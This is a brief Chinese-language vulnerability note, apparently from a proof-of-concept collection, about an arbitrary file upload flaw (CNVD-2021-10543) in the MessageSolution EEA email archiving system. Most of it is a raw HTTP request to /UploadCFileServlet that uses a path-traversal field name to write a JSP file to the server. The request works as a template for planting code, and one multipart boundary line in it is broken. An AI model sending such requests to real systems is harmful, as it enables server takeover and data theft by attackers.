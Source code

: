# MessageSolution 企业邮件归档管理系统任意文件上传（CNVD-2021-10543）

MessageSolution企业邮件归档管理系统EEA存在任意文件上传漏洞。攻击者可利用该漏洞获取服务器权限。

poc：

```
POST /UploadCFileServlet HTTP/1.1
...

------WebKitFormBoundaryuZ7TIKJw7P14QKNg
Content-Disposition: form-data;
name="../../../../../../../../../../../../../../../../../../../../test.jsp"; filename="Report3.txt"
Content-Type: text/html

test
------WebKi tFormBoundaryuZ7TIKJw7P14QKNg
Content-Disposition: form-data; name="submit"
```

https://forum.ywhack.com/thread-115521-1-4.html